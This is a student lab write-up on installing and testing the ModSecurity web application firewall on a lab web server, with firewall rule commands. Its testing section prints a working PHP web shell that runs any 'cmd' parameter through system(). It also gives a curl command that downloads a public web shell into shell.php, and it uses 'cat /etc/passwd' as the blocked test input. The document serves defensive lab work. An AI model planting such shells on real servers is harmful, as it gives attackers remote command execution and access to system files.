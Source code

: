 # Lab Summary

In this lab we added a web application firewall to web01 and then we tested it

## Adding software to web01

Since updating web01 requires connecting the internet through WAN we have to add a couple firewall rules . One is a permanent rule and the other is temporary.

## WAN-to-DMZ

On fw01 there needs to be a permanent rule that allows connections back through WAN-to-DMZ firewall.

First we can check to see if the rule already exists with command below

`show firewall name WAN-to-DMZ`

If it doesnt exist we can add it by running the following commands 

`configure`

`set firewall name WAN-to-DMZ rule 1 action accept`

`set firewall name WAN-to-DMZ rule 1 state established`

`commit`

`save`

## DMZ-to-WAN

Since the permanent rule has been added we also have to add a temporary rule to allow traffic through (but only while we update) by running the commands below

`configure`

`set firewall name DMZ-to-WAN rule 999 action accept`

Now we need to set the source address to the web server by running the commands below

`set frewall name DMZ-to-WAN rule 999 source address 172.16.50.3`

`commit`

**One thing we can do is make sure that we dont save the rule since its only temporary. We can keep it committed until after we run the update and that way its just in memory and not persistent on the reboot**

## Adding and testing mod_security

To install the necessary services  such as mod_security and php to make a webshell work we must run the following command below

`sudo yum install mod_security mod_security_crs install php php-common php-opcache php-mcrypt php-cli php-gd php-curl php-mysqlnd -y`

Then we must restart  https to apply changes

`sudo systemctl restart httpd`

check to see if mod_security was installed 

`sudo httpd -M | grep security2`

We can also check by navigating as root to **/var/log**

and entering 

`cat error_log | grep ModSecurity`

## Testing ModSecurity

If we try to currently navigate to the webserver (in this case index.html) we will get a 403 forbidden  error.  We can test this by navigating to **/var/log** and enter the command below to check the error

`cat error_log | grep 960017`

Now we need to tell ModSecurity to  allow access to web01 via an IP address. This is done by editing the **/etc/httpd/conf.d/mod_security.conf** file. Rule 960017 is the associated rule that prevented access which was an error message shown above. Underneath

**Default recommended configuration**

**SecRuleEngine On**

We need to include 

`<locationmatch "/"`

   `SecRuleRemoveById 960017`

`</locationmatch>`

**SecRequestBodyAccess on**

Now we need to restart httpd again after saving the file we should be able to curl the webserver from the WAN on **rw01** by typing

`curl http://172.16.50.3`

and it should show your homepage message like **Welcome to web01**

Here is an HTML source code that Devin used for testing security logs

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

In order for this to be utilized in teh webserver, we can curl on the raw content from GitHub and have it name the .php file to "shell.php" with the command below

```curl https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php -o shell.php
```

Now we should be able to test remote code execution by typing

`http://[WEBSERVER_IP]/shell.php`

in the browser bar

If we enter **cat /etc/passwd**  we will get an error of 403 Forbidden

We can also use Wazuh and/or syslog on web01 by typing

`cat /etc/passwd` in to the input box to see the 403 error

# Problems

I had minor issues curling the raw content from github for the php file in the wrong folder so i just had to remove it and put it in the correct location of the html directory. Other than that I did not have too many issues with this lab.

